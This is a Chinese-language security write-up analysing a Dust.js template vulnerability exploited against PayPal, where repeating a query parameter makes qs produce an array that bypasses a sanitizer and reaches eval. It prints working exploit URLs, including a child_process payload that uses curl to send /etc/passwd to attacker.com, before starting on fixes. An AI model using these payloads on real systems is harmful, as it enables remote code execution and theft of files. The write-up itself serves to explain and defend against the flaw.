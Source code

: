 这段代码非常简洁、完整，能够拦截当前已知的可以破坏字符串引用的所有特殊字符。另外，读者还可以在代码中看到HCHARS.test(s)函数仅用于处理字符串，避免在处理未定义值时出现错误。

虽然这段代码可以避免一些错误情况，但它却无法阻止类型篡改攻击。如果攻击者成功将s强制转化为数组（或任意非字符串类型）对象，整个检查过程就会被完全绕过。在随后的代码中，当条件语句传递给eval函数时，数组对象会被显示转化为字符串对象，最终导致远程JavaScript代码执行。

**（二）字符串可以转为数组**

攻击者的下一步骤是尝试篡改变量类型。对于API驱动的应用而言，攻击者可以通过修改JSON载荷来尝试篡改变量类型，正如之前[Mongoose的Buffer漏洞](https://snyk.io/vuln/npm:mongoose:20160116)一样。然而，由于Dust.js是一个Web模板平台，我们会专注于如何通过qs包来篡改变量类型。

[qs包](https://www.npmjs.com/package/qs)是解析查询字符串时最常用的一个JavaScript包，也是express、request和其他流行包中默认使用的包。qs能够将查询字符串转化为JavaScript对象，以便程序处理。以下是qs的常见用法：



```
qs.parse('a');          // {a : ''}
qs.parse('a=foo');      // {a : 'foo'}
qs.parse('a=foo&amp;b=bar');// {a : 'foo', b: 'bar'}
qs.parse('a=foo&amp;a=bar');// {a : ['foo', 'bar']}
qs.parse('a[]=foo');    // {a : ['foo']}
```

你可能会注意到，qs通过查询字符串中对象的创建方式来判断对象类型。如果同一个对象名多次出现，它就会被当成数组对象。类似地，如果一个变量显示声明为数组型变量，那么在解析该变量时Dust.js将按照数组类型进行处理。

这里距离触发Dust.js漏洞已经很近了。PayPal使用了上文分析的存在漏洞的模板，攻击者需要做的仅仅是提供device参数两次，或者以“device[]=value”形式提供参数，这样变量就会按数组方式进行参数传递，最终绕过净化函数的处理逻辑。

**（三）Dust.js漏洞后续利用**

这一部分与类型篡改主题有一定关系，但主要内容是分析攻击者如何具体利用此类漏洞。

首先，攻击者需要获得代码运行机会。这个目标可以通过一个攻击URL来实现，如下所示：

攻击所用的URL: https://host/page?device=x&amp;device=y'-console.log('gotcha')+'

调用eval执行: eval("'xy'-console.log('gotcha')+'' == 'desktop'");

控制台日志消息对攻击者来说用处不大，因此攻击者需要使用其他更为巧妙的方法，比如将某些信息从内部往外部发送。在PayPal漏洞中，研究人员使用了如下载荷传递信息：

```
http://host/page?device=x&amp;device=y'-require('child_process').exec('curl+-F+"x=`cat+/etc/passwd`"+attacker.com')-'
```

等价的eval语句如下所示：

```
eval("'xy'-require('child_process').exec('curl -F "x=`cat /etc/passwd`" attacker.com')-'' == 'desktop'");
```

以上漏洞利用方式使用的是child_process模块来执行本地curl命令，将“/etc/passwd”文件发送给攻击者。使用原生的Node命令也可以完成相同任务，但所需的载荷稍长。使用child_process模块可以将漏洞范围从远程JS代码执行延伸至远程shell命令执行，拓宽攻击者可选项。

**（四）修复措施**

大多数类型篡改漏洞（Dust.js的这个也不例外）可以通过禁用（disallowing）、规范化（normalizing）或自定义处理（custom handling）变量类型加以修复。这三种措施可以相互结合，建立多层防御机制。

禁用变量类型意味着只有特定变量类型受模板支持。此例中，Dust.js可以选择在模板中禁用非字符串类型参数，这种处理方式将导致模板框架功能减少，因此需根据框架的具体使用方式来确定是否使用该方法。
